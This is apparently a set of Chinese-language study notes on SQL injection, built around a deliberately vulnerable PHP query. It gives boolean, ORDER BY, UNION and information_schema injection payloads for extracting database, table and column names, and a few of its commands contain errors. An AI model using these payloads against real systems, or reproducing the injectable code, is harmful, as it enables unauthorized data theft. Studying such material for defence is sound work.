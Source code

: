 下面我们来看一段代码：
```php
<?php

if(isset($_REQUEST["submit"])){

    $id=$_REQUEST['id'];

    $query="SELECT first_name,last_name FROM users WHERE user_id='$id'";

    $result=mysql_query($query) or die('<pre>'.mysql_error().'</pre>');

    $num=mysqli_num_rows($result);

    $i=0;

    while($i<$num){

        $first=mysql_result( $result, $i,'first_name');

        $last=mysql_result( $result, $i,'last_name');

        echo''.$first.''.$last.'';

        $i++;

    }

    mysql_close();

}
```



这一段的功能就是：从用户请求中获取 id 参数，然后直接将 id 参数的值填入 SQL 语句，进行 SQL 查询，最终输出查询结果。
## 判断类型
但是对于我们的用户来说是不可见的，我们需要首先去判断我们的对象是以字符或者是数字的方式来存储，这里我们就需要通过我们的输入来判断。

我们直接输入 `1`，我们会回显我们的 `first_name last_name`。

接着测试：我们输入 `1' and '1'='2'#` 条件恒为假，我们返回结果为空。

接着测试：我们输入 `1' or '1234'='1234'#`,条件恒为真，我们返回了我们查询的所有结果。

综上所述，我们可以大致推理出我们的 SQL 语句：
```sql
SELECT first_name,last_name FROM users WHERE user_id='$id'
```

## 判断当前表的列数
为了我们的联合查询，我们还需要知道我们的列数, 也就是我们有多少个信息。
为此，我们依次输入：`1' or 1=1 order by x #`,指导我们对应失效，那么我们就一共有 `x-1` 列

然后有多少列，我们就去构造 `select 1,...,x` 来在有回显的情况下获得我们的答案。
Colomn=2
## 获取数据库名
在我们能获得一个表格的 sql 控制权的时候，我们就可以通过我们的 select 语句来获取我们的数据库。例如：
```
1 union select 1,databases()
```
![[Pasted image 20240305195900.png]]

## 获取数据库表名：
我们利用我们的 `information_schema` 库来获得我们的对应信息。
```sql
select * from test_01 union select 1,group_concat(table_name) from information_schema.tables where table_schema = database();
```
其中我们的 `group_concat` 的作用是把我们的所有信息统一压缩到一个行内。
![[Pasted image 20240305200229.png]]


或者如果我们确定一定在当前数据库下，我们可以考虑采用我们的 `show tables`
```
1';show tables;#
```
![[Pasted image 20240305202409.png]]


## 获取字段名：
我们还是利用我们的 `information_schema` 库来获得我们的对应信息。
```sql
select * from test_01 union select 1,group_concat(column_name) from information_schema.columns where table_name = 'test_01';
```
![[Pasted image 20240305200913.png]]


## Concat 被过滤：
在我们的 concat 被过滤，而且只能返回第一条信息，我们只能把我们的 concat 替换为我们的 `limit`。其中我们的 limit 的作用是限制我们从第 i 行开始输出 k 个。
```sql
select name from student limit(0,1)
select name from student limit(1,1)
```

